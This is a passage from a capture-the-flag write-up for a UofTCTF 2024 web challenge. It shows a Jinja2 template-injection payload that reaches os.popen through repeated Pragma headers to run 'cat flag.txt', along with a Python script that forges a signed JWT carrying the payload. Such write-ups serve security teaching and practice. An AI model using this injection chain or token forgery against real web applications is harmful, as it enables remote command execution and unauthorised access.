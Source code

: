 we finally get the flag:

{% ccb terminal:true %}
uoftctf{That_firewall_salesperson_scammed_me_:(}
{% endccb %}

## we have ran out of header names (cleaner solution)

"Ireland without the RE" wrote [a writeup](https://ireland.re/posts/UofTCTF_2024_Web/#webmy-first-app) which by using `request.pragma.0` and sending multiple of the same header key

```http
Pragma: __globals__
Pragma: __getitem__
Pragma: __builtins__
Pragma: __import__
Pragma: os
Pragma: popen
Pragma: cat flag.txt
Pragma: read
```

They also used a shorter payload of `lipsum.__globals__.__getitem__('__builtins__').__import__.os.popen()`

I wrote a script to send their payload:

```py
import requests
import jwt
import html

# https://stackoverflow.com/a/16790967
class uniquestr(str):
    _lower = None
    def __hash__(self):
        return id(self)
    def __eq__(self, other):
        return self is other
    def lower(self):
        if self._lower is None:
            lower = str.lower(self)
            if str.__eq__(lower, self): 
                self._lower = self
            else:
                self._lower = uniquestr(lower)
        return self._lower

payload = "{{lipsum|attr(request.pragma.0)|attr(request.pragma.1)(request.pragma.2)|attr(request.pragma.1)(request.pragma.3)(request.pragma.4)|attr(request.pragma.5)(request.pragma.6)|attr(request.pragma.7)()}}"

headers = {
    uniquestr('Pragma'): '__globals__', # request.pragma.0
    uniquestr('Pragma'): '__getitem__', # request.pragma.1
    uniquestr('Pragma'): '__builtins__',# request.pragma.2
    uniquestr('Pragma'): '__import__',  # etc...
    uniquestr('Pragma'): 'os',
    uniquestr('Pragma'): 'popen',
    uniquestr('Pragma'): 'cat flag.txt',
    uniquestr('Pragma'): 'read'
}

auth = jwt.encode({"username": payload}, "torontobluejays", algorithm="HS256")

print(payload)
```